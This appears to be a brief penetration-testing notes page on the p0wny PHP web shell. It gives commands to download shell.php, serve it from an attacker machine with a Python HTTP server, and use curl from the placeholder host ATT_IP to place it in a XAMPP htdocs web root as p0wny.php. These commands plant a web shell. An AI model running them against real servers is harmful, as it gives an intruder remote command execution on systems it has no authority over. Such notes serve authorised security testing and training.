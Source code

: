 # p0wny shell

{% embed url="https://github.com/flozz/p0wny-shell" %}



<pre class="language-bash" data-title="Attack machine"><code class="lang-bash"><strong>wget https://raw.githubusercontent.com/flozz/p0wny-shell/refs/heads/master/shell.php
</strong>
python3 -m http.server 80
</code></pre>

Upload the shell into the WebSite

{% code title="xamp example" overflow="wrap" %}
```bash
cd C:\xampp\htdocs
curl http://ATT_IP/shell.php -o p0wny.php
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
